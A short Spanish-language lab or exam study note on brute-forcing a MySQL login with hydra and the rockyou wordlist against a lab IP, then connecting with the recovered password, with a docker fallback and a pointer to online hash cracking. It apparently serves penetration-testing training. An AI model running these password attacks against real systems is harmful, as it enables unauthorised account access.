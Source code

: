 Este tipo de ataques es similar a los explicados anteriormente. El comando se compone de forma muy similar, sería el siguiente:

````
hydra -l capybara -P /usr/share/wordlists/rockyou.txt mysql://172.17.0.2
`````

La estructura es la misma, únicamente cambia el protocolo que usa hydra para hacer la fuerza bruta.

Una vez nos devuelva la contraseña tendremos que hacer uso del siguiente comando para poder acceder:

````
mysql -u capybara -ppassword1 -h 172.17.0.2
`````

# Fuera del alcance del exámen

En caso de que no funcione mediante esta forma tendremos que abrir una instancia de docker porque hay veces que se tiene capado las conexiones mediante una kali.

````
sudo docker run -it debian:latest
`````

Haríamos un ``apt update`` e instalaríamos ``apt install mariadb-client``, una vez hecho esto podremos conectarnos a la base de datos.

**Mediante [crackstation](https://crackstation.net) podremos quitar el hash de las contraseñas siempre y cuando tengamos acceso a internet.**


